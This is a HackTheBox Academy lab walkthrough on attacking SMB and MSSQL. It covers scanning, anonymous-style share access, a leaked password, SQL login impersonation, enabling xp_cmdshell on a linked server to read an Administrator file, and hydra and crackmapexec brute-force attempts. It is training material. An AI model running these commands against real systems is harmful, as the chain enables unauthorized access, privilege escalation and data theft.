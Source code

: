 
# Attacking Common Services - HARD

>HackTheBox Academy Module Assessment LAB walkthrough  
[Attacking SMB](https://academy.hackthebox.com/module/116/section/1167)  
[Attacking SQL Databases](https://academy.hackthebox.com/module/116/section/1169)  

## port Scan NMAP discovery

```
sudo nmap -p- 10.129.1.2
sudo nmap -p 135,445,1433,3389 -sCV -A -O 10.129.1.2
```

>open ports and services:

```
PORT     STATE SERVICE
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
3389/tcp open  ms-wbt-server
```

## SMB File Shares

>SMB allows the simon user with blank password to read content on file server shares.  

```
smbmap -u 'simon' -H inlanefreight.htb

smbmap -u 'simon' -H inlanefreight.htb -r Home
```  

>SMB client connect with blank password.  

```
smbclient -U 'simon' \\\\10.129.1.2\\Home

recurse
ls

cd \IT\Simon\>

get random.txt
cd \IT\Fiona\> 
get creds.txt
```

>Content of the file `creds.txt`, is the password for fiona, `48Ns72!bns74@S84NNNSl`.   

## Use discovered user FIONA  

>Remote desktop to windows user as FIONA.  

```
xfreerdp /v:10.129.1.2 /u:fiona /p:'48Ns72!bns74@S84NNNSl' /dynamic-resolution /cert:ignore
```

>Remote connect to Microsoft SQL service as Fiona user.  

```
sqsh -S 10.129.1.2 -U '.\\fiona' -P '48Ns72!bns74@S84NNNSl' -h
```  

>In remote desktop windows session open `cmd` for command prompt.
>run `sqlcmd` as Fiona.  

>Enumerate Database and tables on MSSQL  

```
SELECT name FROM master.dbo.sysdatabases
go

use TestingDB
go

SELECT table_name FROM TestAppDB.INFORMATION_SCHEMA.TABLES
go
```  

## Identify Users that current SQL User can Impersonate  

```
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
```


## Impersonate User SQL user account: John  

>As the returned value 0 indicates, we do not have the sysadmin role, but we can impersonate the sa user.
>Let us impersonate the user and execute the same commands.
>To impersonate a user, we can use the Transact-SQL statement EXECUTE AS LOGIN and set it to the user we want to impersonate.

```
EXECUTE AS LOGIN = 'john'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
go

```

## Identify linked Servers in MSSQL

>Identify linked Servers in MSSQL.  

```
SELECT srvname, isremote FROM sysservers
go
```

>WINSRV02\SQLEXPRESS
>LOCAL.TEST.LINKED.SRV  


## Execute Commands on Remote LINK SQL Servers  

>The `EXECUTE` statement can be used to send pass-through commands to linked servers. 
>We add our command between parenthesis and specify the linked server between square brackets `([ ])`.  

```
1> EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'show advanced options', 1;
2> go
```

>Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.

```
1> EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
2> go
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
2> go
```

## Exfiltrate Secret Data - Reading the flag  

>Submit the contents of the flag.txt file on the Administrator Desktop.  

```
EXECUTE("EXEC sp_configure 'show advanced options', 1;") AT [LOCAL.TEST.LINKED.SRV]
go
EXECUTE("RECONFIGURE") AT [LOCAL.TEST.LINKED.SRV]
go
EXECUTE("EXEC sp_configure 'xp_cmdshell', 1;") AT [LOCAL.TEST.LINKED.SRV]
go
EXECUTE('xp_cmdshell "type C:\Users\Administrator\Desktop\flag.txt >c:\users\fiona\desktop\x.txt"') AT [LOCAL.TEST.LINKED.SRV]
go
```  

>read content as current user `Fiona`.  

```
type c:\users\fiona\desktop\x.txt
```  

[Attacking Common Services - Hard](https://academy.hackthebox.com/module/116/section/1468)  

## Extra Commands

>These commands did not succeed in providing any foothold, information or lateral movement.  

```
sudo responder -I tun0
```

```
crackmapexec mssql 10.129.79.226 -u 'john' -p secrets.txt --local-auth
``` 

```
hydra -l john -P /usr/share/wordlists/rockyou.txt 10.129.27.28 mssql 
```  

```
sqsh -S 10.129.27.28 -U john -P '48Ns72!bns74@S84NNNSl' -h
```  

